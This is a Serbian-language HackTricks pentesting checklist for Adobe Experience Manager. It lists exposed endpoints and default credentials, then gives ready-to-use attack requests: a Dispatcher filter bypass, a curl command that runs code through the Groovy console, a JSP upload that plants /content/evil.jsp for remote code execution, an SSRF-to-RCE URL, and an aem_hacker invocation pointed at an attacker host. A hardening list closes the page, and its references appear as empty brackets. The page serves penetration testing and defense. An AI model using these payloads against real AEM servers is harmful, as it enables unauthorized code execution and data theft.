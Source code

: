 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, deo Adobe Experience Cloud-a) je preduzetnički CMS koji radi na Apache Sling/Felix (OSGi) i Java Content Repository (JCR).
> Sa perspektive napadača, AEM instance vrlo često izlažu opasne razvojne krajnje tačke, slabe Dispatcher pravila, podrazumevane akreditive i dugačak niz CVE-ova koji se zakrpljuju svaka tri meseca.

Lista provere u nastavku fokusira se na **spolja dostupnu (unauth) površinu napada** koja se stalno pojavljuje u stvarnim angažmanima (2022-2025).

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Other quick indicators:
* `/etc.clientlibs/` statička putanja prisutna (vraća JS/CSS).
* `/libs/granite/core/content/login.html` stranica za prijavu sa “Adobe Experience Manager” banerom.
* `</script><!--/* CQ */-->` komentar na dnu HTML-a.

---

## 2. Visokovredni neautentifikovani krajnji tački

Putanja | Šta dobijate | Napomene
---- | ------------- | -----
`/.json`, `/.1.json` | JCR čvorovi putem **DefaultGetServlet** | Često blokirano, ali *Dispatcher bypass* (vidi ispod) funkcioniše.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Curjenje stabla stranica, unutrašnjih putanja, korisničkih imena.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix konzola | 403 po defaultu; ako je izloženo i pronađene su kredencijali ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Paket menadžer | Omogućava autentifikovane sadržajne pakete → JSP payload upload.
`/etc/groovyconsole/**` | AEM Groovy konzola | Ako je izložena → proizvoljna Groovy / Java izvršenja.
`/libs/cq/AuditlogSearchServlet.json` | Audit logovi | Otkriće informacija.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs dump | XSS vektor.

### Dispatcher bypass trik
Većina produkcionih sajtova se nalazi iza *Dispatcher*-a (obrnuti proxy). Njegova pravila filtriranja mogu se zaobići dodavanjem dozvoljene statičke ekstenzije **posle tačke-zareza ili kodirane nove linije**:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Jedan zahtev poput gore navedenog često otkriva čvorove korisničkog profila sa email adresama. P-T Partners je objavio dobre smernice o ovoj slabosti. 【】

---

## 3. Uobičajene pogrešne konfiguracije (još uvek prisutne 2025)

1. **Anonimni POST servlet** – `POST /.json` sa `:operation=import` omogućava vam da postavite nove JCR čvorove. Blokiranje `*.json` POST u Dispatcher-u to rešava. 【】
2. **Korisnički profili dostupni svima** – podrazumevani ACL dodeljuje `jcr:read` na `/home/users/**/profile/*` svima.
3. **Podrazumevani kredencijali** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** omogućen ⇒ reflektovani XSS putem `?debug=layout` (CVE-2016-7882, još uvek pronađen na nasleđenim instalacijama 6.4).
5. **Groovy Console izložen** – daljinsko izvršavanje koda slanjem Groovy skripte:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Nedavne ranjivosti (cadence servisnog paketa)

Kvartal | CVE | Pogođeni | Uticaj
------- | --- | -------- | ------
Dec 2024 | **CVE-2024-43711** | 6.5.21 i ranije | Nepravilna validacija ulaza → **Izvršavanje proizvoljnog koda** (zahteva nisku privilegiju). 【】
Dec 2024 | CVE-2024-43724/26 | 6.5.21 i ranije | DOM / Skladišteni XSS u čarobnjaku za premestanje stranica. 【】
Dec 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | DOM-bazirani XSS putem kreirane URL adrese. 【】
Dec 2022 | CVE-2022-30683 | ≤ 6.5.13 | Greška u dizajnu kriptografije → dekripcija tajne (zahteva niske privilegije). 【】

Uvek proverite *APSB* bilten koji odgovara servisnom paketu kupca i zatražite najnoviji **6.5.22** ili *Cloud Service 2024.11*.

---

## 5. Iskoristive snimke

### 5.1 RCE putem zaobilaženja dispečera + JSP upload
Ako je anonimno pisanje moguće:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Sada zatražite `/content/evil.jsp` – JSP se pokreće sa AEM korisnikom procesa.

### 5.2 SSRF do RCE (istorijski < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py` iz **aem-hacker** automatizuje celu proceduru. 【】

---

## 6. Alati

* **aem-hacker** – skripta za enumeraciju kao švajcarski nož, podržava zaobilaženje dispečera, detekciju SSRF, provere podrazumevanih kredencijala i još mnogo toga.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **Content Brute-force** – rekurzivno zahteva `/_jcr_content.(json|html)` da otkrije skrivene komponente.
* **osgi-infect** – otpremite zloćudni OSGi paket putem `/system/console/bundles` ako su dostupni kredencijali.

---

## 7. Lista za učvršćivanje (za preporuke u vašem izveštaju)

1. Održavajte instancu na **najnovijem kumulativnom servisnom paketu** (od jula 2025: 6.5.22).
2. Uklonite/rotirajte podrazumevane naloge; primenite SSO/SAML.
3. Pojačajte **Dispatcher filtere** – odbijte `;`, kodirane nove redove, i `*.json` ili `*.querybuilder.json` za anonimne korisnike.
4. Onemogućite ili zaštitite konzole (`/system/console`, `/crx/*`, `/etc/groovyconsole`) sa IP listama dozvola.
5. Primijenite paket *Anonymous Permission Hardening* koji je isporučio Adobe.

## Reference

* Adobe Security Bulletin APSB24-69 – “Bezbednosna ažuriranja za Adobe Experience Manager (decembar 2024)”.
* 0ang3el – aem-hacker alat (GitHub).
{{#include ../../banners/hacktricks-training.md}}
